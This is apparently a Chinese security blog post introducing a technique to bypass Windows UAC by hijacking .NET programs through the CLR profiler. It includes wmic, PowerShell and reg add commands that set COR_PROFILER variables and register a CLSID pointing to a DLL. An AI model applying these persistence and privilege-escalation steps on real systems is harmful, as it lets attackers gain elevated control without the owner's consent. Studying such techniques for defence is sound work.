 ```yaml
---
layout: post
title: Use CLR to bypass UAC
---
```



## 0x00 前言
---

在之前的文章[《Use CLR to maintain persistence》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-maintain-persistence/)介绍了通过CLR劫持.Net程序的后门，特点是无需管理员权限，并能够劫持所有.Net程序。那么，如果劫持了高权限的.Net程序，就能够绕过UAC，比如gpedit.msc

最近我在clem@clavoillotte的博客上也看到了相同的利用思路，并且，他的博客里有更多值得学习的地方。于是，我对他博客介绍的内容进行了整理，结合自己的经验，适当作补充，分享给大家。

clem@clavoillotte的博客地址：

https://offsec.provadys.com/UAC-bypass-dotnet.html

## 0x01 简介
---

本文将要介绍以下内容：

- 使用CLR绕过UAC的方法
- 劫持系统CLSID绕过UAC的方法

## 0x02 使用CLR绕过UAC
---

我在[《Use CLR to maintain persistence》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-maintain-persistence/)一文中使用了wmic修改环境变量，代码如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"
wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

在[《Use Logon Scripts to maintain persistence》](https://3gstudent.github.io/3gstudent.github.io/Use-Logon-Scripts-to-maintain-persistence/)补充了使用powershell修改环境变量的方法，代码如下：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null
New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

clem@clavoillotte的方法是直接通过reg add，代码如下：

```
REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\Temp\test.dll" /f
REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
```
